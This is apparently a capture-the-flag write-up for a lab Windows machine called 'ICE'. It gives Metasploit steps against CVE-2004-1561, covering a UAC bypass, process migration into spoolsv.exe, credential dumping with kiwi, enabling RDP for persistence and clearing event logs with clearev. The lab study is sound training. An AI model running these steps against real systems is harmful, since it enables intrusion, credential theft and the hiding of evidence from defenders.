





# ICE 
## Reconnaissance
 * #### IP address : 10.10.113.228
---
## Scanning & Enumeration
started in RP Metaspoitable [here](/RP-Metasploit)

---
## Explotaiton
we are going to exploit [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/) vulnerability 

* access granted

* privilege escalation

we run this command to find option to escalate privilege
```
run post/multi/recon/local_exploit_suggester
```
We are going to use [exploit/windows/local/bypassuac_eventvwr](https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/) to escalate privilege

Now we own admin privilege



## Maintainning Access
* Looting
<p  align="center">

</p>
migrate to spoolsv.exe process

```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2392 to 1364...
[*] Migration completed successfully.
meterpreter > 
```

---
* It's time to do collect password
```
load kiwi
```


* Post expoitation
user password [here](hashes)

* Windows MSRDP

Activate it first 
```
 run post/windows/manage/enable_rdp
```
Find acount [here](accounts)


---
## Cleaning
* clear event log
```
meterpreter > clearev
```

---
